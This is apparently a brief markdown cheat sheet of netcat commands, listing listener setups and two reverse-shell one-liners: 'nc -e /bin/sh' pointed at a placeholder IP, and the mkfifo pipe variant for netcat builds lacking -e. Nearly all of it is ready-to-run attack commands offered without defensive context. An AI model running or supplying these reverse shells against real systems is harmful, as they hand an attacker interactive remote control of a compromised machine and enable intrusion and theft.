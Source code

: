 # Netcat

## Listener
nc -l -p 4444 \
nc -lnvp 4444

## Reverse TCP
nc -e /bin/sh xxx.xxx.x.xx 4444

## Reverse TCP ( If missing -e argument )  

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xx.xx.xx.xx 1234 >/tmp/f
